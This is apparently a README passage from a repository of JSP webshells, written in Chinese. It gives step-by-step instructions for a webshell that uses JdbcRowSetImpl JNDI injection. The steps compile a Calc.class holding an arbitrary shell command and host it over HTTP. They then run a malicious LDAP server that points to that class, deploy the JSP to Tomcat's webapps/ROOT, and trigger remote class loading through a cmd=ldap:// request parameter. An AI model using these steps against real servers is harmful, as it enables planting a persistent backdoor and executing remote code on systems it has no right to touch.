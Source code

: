 ### JdbcRowSetImpl进行jndi注入的JSP Webshell

因为引入了ldap sdk，所以，需要去maven仓库下载个unboundid-ldapsdk-3.1.1.jar

具体的使用：

1. 修改Calc.java中的cmd局部变量为需要执行的shell命令，然后执行javac Calc.java编译得到Calc.class
2. 把上一步得到的Calc.class放到webshell运行环境可访问的http服务器中
3. 把LdapServer.java、OperationInterceptor.java、unboundid-ldapsdk-3.1.1.jar放到同一目录下，执行编译javac -cp unboundid-ldapsdk-3.1.1.jar:. LdapServer.java
4. 执行jar cvf LdapServer.jar LdapServer.class OperationInterceptor.class打包成LdapServer.jar
5. 把LdapServer.jar、unboundid-ldapsdk-3.1.1.jar放到同一目录下，java -cp LdapServer.jar:unboundid-ldapsdk-3.1.1.jar LdapServer 12345 "http://127.0.0.1:80/#Calc",其中12345为ldap server的端口，"http://127.0.0.1:80/#Calc"中的127.0.0.1:80为上一步中可访问的http服务器，因为Calc.class存放于http服务器根目录，所以为Calc（Calc存放在http服务器的文件有后缀.class，但是参数不需要.class）
6. 把jsp放到tomcat的webapps/ROOT/中，访问http://127.0.0.1:8080/13.jsp?cmd=ldap://127.0.0.1:12345，cmd参数即为刚刚上一步启动的ldap server的url